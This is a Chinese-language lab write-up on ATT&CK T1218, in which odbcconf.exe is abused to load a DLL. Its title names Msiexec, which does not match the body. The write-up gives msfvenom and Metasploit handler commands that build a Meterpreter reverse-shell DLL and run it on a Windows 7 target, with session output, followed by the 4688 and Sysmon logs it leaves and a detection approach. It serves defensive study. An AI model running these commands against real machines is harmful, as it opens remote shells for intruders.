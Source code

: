 # T1218-win-基于白名单Msiexec执行Payload

## 来自ATT&CK的描述

可信数字证书签署的二进制文件在Windows操作系统执行时，可通过数字签名验证保护。Windows安装过程中默认安装的一些微软签名的二进制文件可用来代理执行其它文件。攻击者可能会滥用此技术来执行可能绕过应用白名单机制和系统签名验证的恶意文件。该技术考虑了现有技术中尚未考虑的代理执行方法。

## 测试案例

Odbcconf.exe是允许配置开放数据库连接（ODBC）驱动和数据源名称的Windows工具。攻击者也可能滥用此工具来执行动态链接库，就像带有REGSVR选项的Regsvr32一样。

odbcconf.exe /S /A {REGSVR "C:\Users\Public\file.dll"}

说明：Odbcconf.exe所在路径已被系统添加PATH环境变量中，因此，Odbcconf命令可识别，需注意x86，x64位的Odbcconf调用。

Windows 2003 默认位置：

```dos
C:\WINDOWS\system32\odbcconf.exe
C:\WINDOWS\SysWOW64\odbcconf.exe
```

Windows 7 默认位置：

```dos
C:\Windows\System32\odbcconf.exe
C:\Windows\SysWOW64\odbcconf.exe
```

补充说明：在高版本操作系统中，可以通过配置策略，对进程命令行参数进行记录。日志策略开启方法：`本地计算机策略>计算机配置>管理模板>系统>审核进程创建>在过程创建事件中加入命令行>启用`，同样也可以在不同版本操作系统中部署sysmon，通过sysmon日志进行监控。

## 检测日志

windows 安全日志（需要自行配置）

## 测试复现

### 环境准备

攻击机：Kali2019

靶机：windows 7

### 攻击分析

#### 生成payload.dll

```bash
msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp LHOST=192.168.126.146 LPORT=53  -f dll -o payload.dll
```

#### 执行监听

攻击机,注意配置set AutoRunScript migrate f (AutoRunScript是msf中一个强大的自动化的后渗透工具，这里migrate参数是迁移木马到其他进程)

```bash
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set lhost 192.168.126.146
lhost => 192.168.126.146
msf5 exploit(multi/handler) > set lport 53
lport => 53
msf5 exploit(multi/handler) > set AutoRunScript migrate -f
AutoRunScript => migrate -f
msf5 exploit(multi/handler) > exploit
```

#### 靶机执行payload

```cmd
C:\Windows\SysWOW64\odbcconf.exe /a {regsvr C:\payload.dll}
```

#### 反弹shell

```bash
msf5 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 192.168.126.146:53
[*] Sending stage (180291 bytes) to 192.168.126.149
[*] Meterpreter session 2 opened (192.168.126.146:53 -> 192.168.126.149:49306) at 2020-04-18 20:45:29 +0800
[*] Session ID 2 (192.168.126.146:53 -> 192.168.126.149:49306) processing AutoRunScript 'migrate -f'
[!] Meterpreter scripts are deprecated. Try post/windows/manage/migrate.
[!] Example: run post/windows/manage/migrate OPTION=value [...]
[*] Current server process: rundll32.exe (912)
[*] Spawning notepad.exe process to migrate to
[+] Migrating to 3820
[+] Successfully migrated to process

meterpreter > getuid
Server username: 12306Br0-PC\12306Br0
```

## 测试留痕

```log
windows安全日志
事件ID： 4688
进程信息:
新进程 ID: 0xfec
新进程名: C:\Windows\SysWOW64\odbcconf.exe

事件ID：4688
进程信息:
新进程 ID: 0x390
新进程名: C:\Windows\SysWOW64\rundll32.exe

sysmon日志
事件ID：1
Image: C:\Windows\SysWOW64\odbcconf.exe
FileVersion: 6.1.7600.16385 (win7_rtm.090713-1255)
Description: ODBC Driver Configuration Program
Product: Microsoft® Windows® Operating System
Company: Microsoft Corporation
OriginalFileName: odbcconf.exe
CommandLine: C:\Windows\SysWOW64\odbcconf.exe  /a {regsvr C:\payload.dll}
CurrentDirectory: C:\
User: 12306Br0-PC\12306Br0
LogonGuid: {bb1f7c32-5fc3-5e99-0000-00201ae20600}
LogonId: 0x6e21a
TerminalSessionId: 1
IntegrityLevel: Medium
Hashes: SHA1=B1C49B2159C237B1F2BCE2D40508113E39143F7B
ParentProcessGuid: {bb1f7c32-f65d-5e9a-0000-0010833eef00}
ParentProcessId: 3868
ParentImage: C:\Windows\System32\cmd.exe
ParentCommandLine: "C:\Windows\system32\cmd.exe"

事件ID：1
Image: C:\Windows\SysWOW64\rundll32.exe
FileVersion: 6.1.7600.16385 (win7_rtm.090713-1255)
Description: Windows host process (Rundll32)
Product: Microsoft® Windows® Operating System
Company: Microsoft Corporation
OriginalFileName: RUNDLL32.EXE
CommandLine: rundll32.exe
CurrentDirectory: C:\
User: 12306Br0-PC\12306Br0
LogonGuid: {bb1f7c32-5fc3-5e99-0000-00201ae20600}
LogonId: 0x6e21a
TerminalSessionId: 1
IntegrityLevel: Medium
Hashes: SHA1=8939CF35447B22DD2C6E6F443446ACC1BF986D58
ParentProcessGuid: {bb1f7c32-f662-5e9a-0000-0010d648ef00}
ParentProcessId: 4076
ParentImage: C:\Windows\SysWOW64\odbcconf.exe
ParentCommandLine: C:\Windows\SysWOW64\odbcconf.exe  /a {regsvr C:\payload.dll}
```

## 检测规则/思路

无具体检测规则，可根据进程创建事件4688/1（进程名称、命令行）进行监控。本监控方法需要自行安装配置审核策略/sysmon。

## 参考推荐

MITRE-ATT&CK-T1218:<https://attack.mitre.org/techniques/T1218/>

windows下基于白名单获取shell的方法整理（下）:<http://www.safe6.cn/article/157#directory030494471069429444>
